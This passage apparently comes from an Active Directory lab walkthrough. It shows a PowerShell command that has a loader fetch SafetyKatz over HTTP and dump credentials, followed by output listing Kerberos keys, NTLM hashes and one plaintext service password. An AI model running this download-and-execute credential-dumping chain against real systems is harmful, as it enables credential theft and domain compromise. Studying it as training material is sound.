 and execute SafetyKatz

```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"
```

```powershell
Authentication Id : 0 ; 11523662 (00000000:00afd64e)
Session           : NewCredentials from 0
User Name         : student867
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 5/9/2025 2:00:54 PM
SID               : S-1-5-21-719815819-3726368948-3917688648-20607

         * Username : srvadmin
         * Domain   : dcorp
         * Password : (null)
         * Key List :
           aes256_hmac       01e519027474feb980e17dadb7230f81ccc3114a49f964732e0c225f91de91a6
           aes128_hmac       1078167b969a70401927d9fb1faf4e10
           rc4_hmac_nt       31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_hmac_old      31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_md4           31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_hmac_nt_exp   31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_hmac_old_exp  31d6cfe0d16ae931b73c59d7e0c089c0

Authentication Id : 0 ; 5853380 (00000000:005950c4)
Session           : RemoteInteractive from 2
User Name         : srvadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:22:58 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1115

         * Username : srvadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4
           rc4_hmac_nt       a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old      a98e18228819e8eec3dfa33cb68b0728
           rc4_md4           a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_nt_exp   a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old_exp  a98e18228819e8eec3dfa33cb68b0728

Authentication Id : 0 ; 138873 (00000000:00021e79)
Session           : Service from 0
User Name         : websvc
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:48 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1114

         * Username : websvc
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : AServicewhichIsNotM3@nttoBe
         * Key List :
           aes256_hmac       2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7
           aes128_hmac       86a353c1ea16a87c39e2996253211e41
           rc4_hmac_nt       cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_old      cc098f204c5887eaa8253e7c2749156f
           rc4_md4           cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_nt_exp   cc098f204c5887eaa8253e7c2749156f
```